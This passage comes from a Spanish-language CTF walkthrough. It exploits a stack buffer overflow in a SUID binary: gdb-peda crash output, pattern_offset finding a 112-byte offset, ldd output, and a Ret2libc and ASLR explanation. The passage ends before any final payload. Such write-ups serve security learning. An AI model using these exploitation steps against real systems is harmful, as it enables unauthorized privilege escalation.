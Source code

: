 ```bash
0008| 0xbfcddb08 ("AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%"...)
0012| 0xbfcddb0c ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%O"...)
0016| 0xbfcddb10 ("PAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA"...)
0020| 0xbfcddb14 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)
0024| 0xbfcddb18 ("AmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%Q"...)
0028| 0xbfcddb1c ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41384141 in ?? ()
gdb-peda$
```

Ahora, tomamos la última dirección que se nos muestra `0x41384141 in ?? ()` y ocupamos el comando `pattern_offset` para determinar la longitud del buffer antes de que se cambien los registros.

```bash
gdb-peda$ pattern_offset 0x41384141
1094205761 found at offset: 112
gdb-peda$ 
```

Para este caso, vemos que el buffer tiene un tamaño de 112; es decir,  que la longitud de caracteres antes de modificar el valor del registro `ebp` es de 112. Para modificar el valor del registro `eip` es el buffer(112) + ebp(4).

Checando las librerías compartidas del programa, vemos lo siguiente:

```bash
www-data@october:~$ ldd /usr/local/bin/ovrflw
        linux-gate.so.1 =>  (0xb77fe000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7644000)
        /lib/ld-linux.so.2 (0x8003c000)
www-data@october:~$
```

En este caso, tenemos **libc**, por lo que debemos ya estar pensando en un ***Ret2libc***, que es una técnica que se basa en ejecutar código que no se encuentra en la pila sino en un sector de la memoria de libc, que es ejecutable; es decir, el código utilizado para vulnerar el programa son funciones dentro de esta librería. 

Una forma de ver el ASLR es ejecutando el comando `ldd` y podemos ver como las direcciones van cambiando, pero hay que tener en cuenta que las direcciones se repiten de forma aleatoria; esto es un punto importante que debemos tener en cuenta para la explotación del *Buffer Overflow*.
